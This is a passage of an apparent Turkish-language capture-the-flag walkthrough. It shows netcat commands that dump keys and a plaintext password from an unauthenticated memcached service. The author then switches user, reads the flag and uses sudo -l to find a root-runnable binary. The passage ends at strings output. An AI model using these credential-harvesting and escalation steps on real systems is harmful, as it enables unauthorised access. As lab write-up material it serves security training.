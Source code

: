 Serviste bulunan key'leri görmek için kullandığım komut: `echo "stats cachedump 1 0" | nc -vn -w 1 127.0.0.1 11211`

````bash
$ echo "stats cachedump 1 0" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
ITEM id [4 b; 1714570001 s]
ITEM email [14 b; 1714570001 s]
ITEM salary [8 b; 1714570001 s]
ITEM password [15 b; 1714570001 s]
ITEM username [4 b; 1714570001 s]
END
````

username ve password key'lerinin değerlerini görüntülemek için kullandığım komutlar: `echo "get username" | nc -vn -w 1 127.0.0.1 11211 | echo "get password" | nc -vn -w 1 127.0.0.1 11211`

````bash
$ echo "get username" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE username 0 4
Orka
END
$ echo "get password" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE password 0 15
OrkAiSC00L24/7$
END
````

Orka kullanıcısının şifresini bulduk. `su orka` ile orka kullanıcısına geçelim.

````bash
Orka@osboxes:/tmp$ cat /home/Orka/user.txt
cat /home/Orka/user.txt
**************************
````

`sudo -l` komutu ile Orka kullanıcısının root yetkisiyle çalıştırabileceği programları aradım.

````bash
Orka@osboxes:/tmp$ sudo -l
sudo -l
[sudo] password for Orka: OrkAiSC00L24/7$

Matching Defaults entries for Orka on osboxes:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User Orka may run the following commands on osboxes:
    (root) /home/Orka/Desktop/bitcoin
````

`strings` ile dosyanın içeriğini görüntülediğimde şifrenin 'password' olduğunu ve bir python dosyası çalıştırdığını görüyorum.

````bash
Orka@osboxes:~/Desktop$ strings bitcoin
strings bitcoin
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
gets
sprintf
__isoc99_scanf
puts
__stack_chk_fail
__ctype_b_loc
system
````